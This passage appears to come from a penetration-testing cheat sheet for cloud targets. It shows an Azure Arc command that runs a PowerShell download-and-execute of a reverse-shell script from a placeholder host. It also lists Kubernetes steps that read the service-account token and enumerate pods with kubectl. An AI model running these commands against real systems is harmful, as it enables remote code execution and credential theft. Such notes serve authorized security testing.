 #### Retrieve interactive shell on the machine
```
az connectedmachine extension create --machine-name i-0ef6d7a83a00e --resource-group AzureArc-RG --name RemoteCode --type "CustomScriptExtension" --publisher "Microsoft.Compute" --settings "{'commandToExecute':'powershell -c iex(New-Object Net.Webclient).downloadstring(\'http://<IP>/Invoke-PowerShellTcp.ps1\')'}" --location "eastus"
```

## Kubernetes
- https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting

#### Check if machine is kubernetes
```
ls -lsa /var/run/secrets/
```

#### Check for secrets of serviceaccount
- Contains the files:
  - `ca.crt`: It's the ca certificate to check kubernetes communications
  - `namespace`: It indicates the current namespace
  - `token`: It contains the service token of the current pod.

```
ls -lsa /run/secrets/kubernetes.io/serviceaccount
ls -lsa /var/run/secrets/kubernetes.io/serviceaccount
ls -lsa /secrets/kubernetes.io/serviceaccount

cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

### Enum with kubectl
- https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux
- https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting/kubernetes-enumeration

#### Get services
```
./kubectl get services
```

#### Retrieve pods
```
./kubectl get pods
```

#### Check if we can view namespace
```
./kubectl describe pods
```

## Office 365
### Updateable groups
- https://github.com/dafthack/GraphRunner
